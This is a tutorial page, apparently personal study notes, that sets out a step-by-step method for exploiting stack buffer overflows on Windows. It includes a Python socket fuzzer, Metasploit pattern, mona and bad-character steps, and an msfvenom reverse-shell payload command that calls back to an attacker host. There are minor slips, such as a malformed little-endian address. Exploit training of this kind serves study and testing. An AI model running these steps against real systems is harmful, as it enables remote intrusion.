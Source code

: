 ```yaml
---
title: "Buffer overflows"
author: "Me"
date: "January 26, 2022"
output: html_document
---
```


# Buffer overflows
{:.no_toc}

Here is the basic methodology of exploiting a buffer overflow vulnerability.

1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# 1. Start the targeted application and attach a debugger to it.
On Windows, attach Immunity Debugger.\\
On Windows, attach EDB.

# 2. Fuzz the application to discover a BO vulnerability
Once the debugger is attached to the running process, we fuzz the application to see if it is vulnerable to buffer overflows.
Example Python PoC:

````
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size

    buffer = "A" * size

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("<Target IP>", <Target port>))
    s.send(buffer)
    
    s.close()
    
    size += 100
    time.sleep(3)
    
    print "\nDone!"
  except:
    print "Could not connect!"
    sys.exit()
````
Note that this script is for a web application, and can be adapted for other types of applications or programs if needed. With this script, we see the approximate number of bytes required to crash the application. Let's assume it is 800 for the sake of the example.
Then, we look at the CPU registers to see if they have been overwritten by our buffer of A's. If it is the case, the application may be vulnerable to BO.

# 3. Find the offset to control _EIP_
If in the previous step the value contained in the _EIP_ register got overwritten by A's, we need to know exactly which A's of the buffer it was.
We create a unique sequence of bytes with _msf-pattern_create_ (length 800 for the example):
````
msf-pattern_create -l 800
`````
We update the PoC with this new buffer, and launch the exploit. We look at the value contained in _EIP_ and determine the offset with _msf-pattern_offset_:
````
msf-pattern_offset -l 800 -q <value in EIP>
`````
Let's assume the offset is located at the byte 710. 
With this information, we modify the buffer to send 710 * A, 4 * B, and (800-710-4) * C. We make sure we indeed control EIP.


# 4. Find space for the shellcode
In this step, we inspect the different registers at the time of the crash to see if any of them points to or close to our buffer (of A's or C's). 
We then look at the available space, considering that a typicial reverse shell payload is approximately 350-450 bytes long.
If there isn't enough space, we can use a first stage shell code to specify another address in memory as well as to align some registers if necessary.

# 5. Find bad characters
Modify to PoC to include every possible character, from 0x00 to 0xff, in the buffer. This can be done either in the A's before EIP, or in the C's after it.
Ideally, we include them at a location where we can send the whole badchar array at once. If it is not possible, we split it in smaller chunks.

````
badchars = (
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
`````
We inspect the dump at the time of the crash to see if any of those characters disappeared, truncating the rest of the buffer. 
If it is the case, we remove it and repeat the process until everything works fine.

# 6. Find a return adress
Once we located space for our future payload as well as a register pointing towards it, we need to find a return address such as a _JMP ESP_, _JMP EAX_, and so on...
We use the _mona.py_ script to search in all the modules (DLLs) loaded by the running application:

````
!mona modules
````
In the list returned by this command, we must pay attention to two details:
- The base address at which the module is loaded can not contain any of the bad characters that were identified.
- We must chose a module that wasn't compiled with ASLR or DEP support.

Once we found a module, we can search within it for the instruction we're looking for. 
We need to specify the opcode of this latter, which can be obbtained with _msf-nasm_shell_:
````
msf-nasm_shell
````
For example to find the opcde of _JMP ESP_, we would simply type this instruction and the tool would give us the corresponding opcode, FFE4.
We can use _mona.py_ once again to find this instruction in the given module:
````
!mona find -s "\xff\xe4" -m "modulename"
`````
If mona finds the instruction in the module, we must make sure its address doesn't contain any bad characters.
If everything is ok, we can replace the B's in EIP by the address of the instruction.
Note that we must pay attention to the architecture; however, most modern machines use little-endian. Therefore, we must write the address backwards.\\
Example: we found a _JMP ESP_ at the address 0x10935c71. In little endian, we will write \x71\x5c\93\x10.\\
In Immunity, we can then go to that address to make sure it is the correct instruction, set a bbreakpoint on it, and rerun the exploit.

# 7. Generate the shellcode
We use _msfvenom_ to generate the shellcode:

````
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<Kali IP> LPORT=<PORT> -f c -e x86/shikata_ga_nai -b “\x00\x0a\x0d\x25\x26\x2b\x3d"
````
This is an example payload that should be modified accordingly to the target OS, architecture, bad characters (specified after _-b_), wanted encoder, and so on...
We then place this shellcode in our PoC, and add a NOP slide before it. 
It can be useful to run the exploit with a breakpoint on the return address, so that we can jump into the into the instruction and do the final required modifications.


